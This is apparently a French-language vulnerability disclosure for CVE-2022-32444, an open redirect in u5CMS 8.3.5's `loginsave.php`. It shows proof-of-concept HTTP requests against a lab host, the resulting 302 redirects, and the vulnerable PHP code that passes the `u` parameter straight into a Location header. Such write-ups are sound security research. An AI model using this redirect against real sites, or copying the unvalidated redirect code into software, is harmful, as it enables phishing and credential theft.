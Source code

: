 # CVE-2022-32444

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** Open Redirect ([CWE-601 - URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html))

La version 8.3.5 d'u5CMS est vulnérable à une faille de type Open Redirect via le paramètre d'URL `u` de la page `/loginsave.php`.

![](<../../.gitbook/assets/image (6) (1) (1) (2).png>)

## Analyse de la vulnérabilité

La page `loginsave.php` est appelée suite à la soumission du formulaire d'authentification disponible à l'URL `/u5admin/` :&#x20;

![](<../../.gitbook/assets/image (2) (1) (2) (1).png>)

La présence du paramètre `u` est visible directement dans la cible du formulaire et a pour valeur `u5admin` :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

La requête est la suivante :&#x20;

```http
POST /u5cms-8.3.5/loginsave.php?u=u5admin HTTP/1.1
Host: 192.168.56.101
Content-Length: 42
Origin: http://192.168.56.101
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.56.101/u5cms-8.3.5/u5admin/
Cookie: i1_l=P; i2_l=d; pidvesa=a; aclan=fr
Connection: close

u=sh4rpforc0rc3%40gmail.com&p=password
```

La réponse est une 302 redirigeant l'utilisateur vers la page d'administration du CMS :

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:37:16 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Set-Cookie: u=sh4rpforc0rc3%40gmail.com; path=/; HttpOnly
Set-Cookie: p=2e6b6cdb26604865418a4814561a43d99ba549e3; path=/; HttpOnly
Location: u5admin?1655937436
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

Une fois la redirection effectuée, l'utilisateur se retrouve sur la page d'administration du CMS `/u5admin/` :

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

En général, une faille de type OpenRedirect sur une mire de connexion peut s'exploiter de la façon suivante :&#x20;

1. L'URL de la mire est semblable à `http://exemple.com/auth?redirect=openredirectvulnerability`
2. L'attaquant soumet cette URL, en adaptant la valeur désirée au paramètre `redirect`, à sa victime
3. La victime renseigne ses identifiants et se retrouve redirigée vers l'URL renseignée par l'attaquant

Dans le cadre de u5cms, l'exploitation de la vulnérabilité est possible directement en soumettant l'URL `http://u5cms-host/u5cms-8.3.5/loginsave.php?u=openredirectvulnerability`, qu'importe que la victime soit authentifiée ou non :&#x20;

```http
GET /u5cms-8.3.5/loginsave.php?u=https://google.fr HTTP/1.1
Host: 192.168.56.101
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:54:42 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Location: https://google.fr?1655938482
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

## Code vulnérable

Le fichier `loginsave.php` va récupérer la valeur du paramètre `u` et y effectuer un léger traitement :&#x20;

* récupérer la valeur dans `$u[0]` et des possibles fragments d'URL dans `$u[1]`
* rediriger l'utilisateur vers `index.php` si la valeur `$u[0]` est une chaine vide
* concaténer un timestamp dans l'URL grâce à la méthode `time()`
* rediriger l'utilisateur vers la valeur contenu dans `$u[0]`

{% code title="loginsave.php" %}
```php
$u=explode('#',$_GET['u']);
if(isset($u[1]))
  $u[1]='#'.$u[1];
else 
  $u[1]='';

if(trim($u[0])=='')
  $u[0]='index.php';
if(strpos($u[0],'?')>1)
  $u[0].='&'.time().$u[1];
else 
  $u[0].='?'.time().$u[1];

header("Location: ".$u[0]);
```
{% endcode %}

## Ressources

* [https://github.com/u5cms/u5cms/issues/50](https://github.com/u5cms/u5cms/issues/50)
